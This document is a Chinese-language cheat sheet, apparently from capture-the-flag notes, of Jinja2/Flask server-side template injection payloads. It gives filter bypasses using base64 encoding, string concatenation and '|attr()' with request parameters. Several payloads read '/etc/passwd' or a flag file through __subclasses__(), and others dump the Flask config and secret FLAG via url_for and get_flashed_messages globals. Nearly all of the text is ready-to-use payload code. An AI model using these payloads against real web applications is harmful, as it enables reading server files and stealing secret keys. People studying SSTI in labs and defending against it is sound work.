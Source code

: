 #### 过滤关键字

**base64编码绕过**
`__getattribute__`使用实例访问属性时,调用该方法

例如被过滤掉`__class__`关键词

```
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

**字符串拼接绕过**

```
{{[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

#### 同时绕过下划线、与中括号

```
{{()|attr(request.values.name1)|attr(request.values.name2)|attr(request.values.name3)()|attr(request.values.name4)(40)('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')|attr(request.values.name5)()}}post:name1=__class__&name2=__base__&name3=__subclasses__&name4=pop&name5=read
```

#### 绕过`.`过滤

若`.`也被过滤，使用原生JinJa2函数`|attr()`
将`request.__class__`改成`request|attr("__class__")`

#### 读取config中flag,绕过

##### 直接使用config

```
{{config}}
```

##### 利用self

```
{{self.__dict__._TemplateReference__context.config}}
```

##### 还可以利用flask的内置函数和类

`url_for、g、request、namespace、lipsum、range、session、dict、get_flashed_messages、cycler、joiner、config`等

```
{{url_for.__globals__['current_app'].config.FLAG}}
{{get_flashed_messages.__globals__['current_app'].config.FLAG}}
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
```

#### 过滤大括号

```
可以利用{%%}替代{{}}
```
